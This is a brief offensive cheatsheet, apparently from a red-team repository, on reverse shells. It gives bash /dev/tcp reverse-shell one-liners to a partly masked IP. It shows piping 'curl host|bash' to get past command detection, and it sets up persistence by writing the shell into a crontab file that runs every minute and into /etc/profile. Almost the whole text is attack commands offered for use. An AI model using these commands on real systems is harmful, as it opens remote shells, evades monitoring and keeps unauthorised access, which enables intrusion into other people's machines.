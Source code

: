 ## Network
- [OpenSSL encryption](https://github.com/Jayway007/Offense-and-Deffense/blob/main/Offense/Red-Team/Execution/Reverse-Shell/Cheatsheet.md#openssl)

## Host
- Use curl to bypass commands detection
  - Set up a web server and write content in :
  ```
  bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
  ```
  - Then execute cmd below to bypass cmd detection:
  ```
  curl 47.xxx.xxx.72|bash
  ```
- Write shell to crontab or profile
  - Write shell content to file _/var/spool/cron/crontabs/username_:
  ```
  */1  *  *  *  *   /bin/bash -i>&/dev/tcp/47.xxx.xxx.72/2333 0>&1
  
  # minute hour day month week
  ```
  - or write to _/etc/profile_, the bash will be executed when user open bash window:
  ```
  /bin/bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 &
  ```
